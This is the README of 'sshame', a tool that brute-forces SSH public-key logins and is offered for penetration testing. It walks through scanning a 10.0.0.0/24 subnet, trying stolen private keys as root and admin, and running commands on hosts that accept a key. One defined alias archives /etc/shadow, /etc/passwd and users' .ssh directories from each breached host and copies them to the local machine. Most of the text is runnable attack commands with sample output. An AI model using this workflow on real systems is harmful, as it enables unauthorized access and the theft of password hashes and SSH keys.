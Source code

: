 ![sshame logo](sshame.png)
# sshame - Perfect tool to brute force SSH public-key authentication
Interactive tool to brute force ssh public key authentication. Primarily intended for pentration testers. Sshame can execute commands on remote hosts.

## Installing ##

### Installing from Github ###

Clone the source from Github:

    git clone https://github.com/HynekPetrak/sshame.git
    cd shame

Then in order to install run:

    sudo python3 setup.py install

In case you want to contribute instead of install run:

    sudo python3 setup.py develop

### Installaling via PyPI ###

`pip3` will install the latest release.

    pip3 install sshame

## Basic usage ##

sshame is interactive, based on https://github.com/python-cmd2/cmd2

    # sshame
    (sshame)

Type help to get a list of commands:

    (sshame) help

    Documented commands (type help <topic>):

    Sshame
    ======
    commands  creds  exploit  hosts  keys  resolve  session

    Uncategorized
    =============
    alias  help     macro     py    record        run_script  shell
    edit   history  playback  quit  run_pyscript  set         shortcuts


### Add target hosts ###

In the sshame shell run `hosts -a list-of-ip-ranges-or-hosts [-p port]`:

    (sshame) hosts -a 10.0.0.0/24 -p 22
    Scanning 10.0.0.0/24 on port(s) 22
    ........***.............
    Received 877 packets, got 222 answers, remaining 34 packets
    2019-08-25 19:22:15,633 sshame [I] 'Adding host (port open): 10.0.0.2 22'
    2019-08-25 19:22:15,683 sshame [I] 'Adding host (port open): 10.0.0.1 22'
    2019-08-25 19:22:15,686 sshame [I] 'Adding host (port open): 10.0.0.6 22'

 sshame will scan the given hosts with scapy and add those, which have the port open.

 To verify added hosts with TCP port open run `hosts -l`

### Load ssh keys ###

 Load private keys with `keys -a glob_path [-p list-of-passwords]`

    (sshame) keys -a test/**/*key
    2019-08-25 19:30:40,613 sshame [I] "Adding ssh keys from: ['test/**/*key']"
    2019-08-25 19:30:40,614 sshame [I] "Discovered 4 files in 'test/**/*key'."
    2019-08-25 19:30:40,615 sshame [I] 'Going to examine 4 files.'
    2019-08-25 19:30:40,635 sshame [I] 'Importing ssh-dss key: test/keys/dsa_key'
    2019-08-25 19:30:40,645 sshame [I] 'Importing ssh-rsa key: test/keys/rsa_key'
    2019-08-25 19:30:40,680 sshame [I] 'Importing ecdsa-sha2-nistp256 key: test/keys/ecdsa_key'
    2019-08-25 19:30:40,693 sshame [I] 'Importing ssh-ed25519 key: test/keys/ed25519_key'
    Loaded 4 unique keys, ignoring 0 duplicates

`-p list-of-passwords` is optional in case you load encrypted private keys protected with passwords.

List loaded keys with `keys -l`

### Test keys on hosts ###

To brute force which keys authenticates on which target run `test_keys -u list-of-users`:

    (sshame) test_keys -u root admin
    2019-08-25 19:34:31,900 sshame [I] 'Preparing target jobs...'
    2019-08-25 19:34:31,933 sshame [I] 'Matching keys - 16 jobs scheduled'
    Completed: [####################] [100.00%]
    2019-08-25 19:34:56,857 sshame [I] '---------------------------------------------------------------------------'

List matching keys with `creds -l`:

    (sshame) creds -l
    [1/1/1]: ssh -i test/keys/rsa_key root@10.0.0.2
    [2/2/1]: ssh -i test/keys/dsa_key admin@10.0.0.1

### Run commands on remote hosts ###

To run commands on remote hosts use `run_cmd -c command`, e.g.:

    (sshame) run_cmd -c whoami
    2019-08-25 23:28:22,757 sshame [I] 'Preparing target jobs...'
    2019-08-25 23:28:22,763 sshame [I] 'Executing commands - 2 jobs scheduled'
    Completed: [####################] [100.00%]
    2019-08-25 23:28:23,993 sshame [I] '---------------------------------------------------------------------------'

### Show command results ###

With `commands -r` diplay the results:

    (sshame) commands -r
    Entries: 2

    | guid                                 | host_address   |   host_port | username   | cmd                  |   exit_status | output          | updated             |
    |--------------------------------------+----------------+-------------+------------+----------------------+---------------+-----------------+---------------------|
    | 434f163a-24b5-4775-a3c1-6ea41745b18d | 10.0.0.2       |          22 | root       | whoami               |             0 | root            | 2019-08-25 21:28:23 |
    | 305e3f5d-bf4d-4024-981a-59b2dddebbcd | 10.0.0.1       |          22 | admin      | whoami               |             0 | admin           | 2019-08-25 21:28:23 |

### Pipe remote commands to a local shell ###

Define an alias `get_files` for a remote command `tar -cf -  /etc/passwd /etc/ldap.conf /etc/shadow /home/*/.ssh /etc/fstab | gzip | uuencode /dev/stdout; exit 0`
 and pipe it to a local `uudecode -o - |tar xzf -`, with:

    commands -a get_files "tar -cf -  /etc/passwd /etc/ldap.conf /etc/shadow /home/*/.ssh /etc/fstab | gzip | uuencode /dev/stdout; exit 0" -p "uudecode -o - |tar xzf -"

`exit 0` is to override tar's exit code in case of missing files.

Run te defined command with:

    run_cmd -c get_files

The output you will find in the folder `output/<host>_<port>/username/...`


### Session management ###

You may want to split wokloads into sessions. Use `session name` to switch between sessions. Default session is 
called 'default'.

Each session has its data stored in a separate sqlite db in the current directory named after the session 
name, e.g. `default.db`

    (sshame) session test
    2019-08-25 23:38:38,283 sshame [I] 'Openning session: sqlite:///test.db'

### License ###

MIT
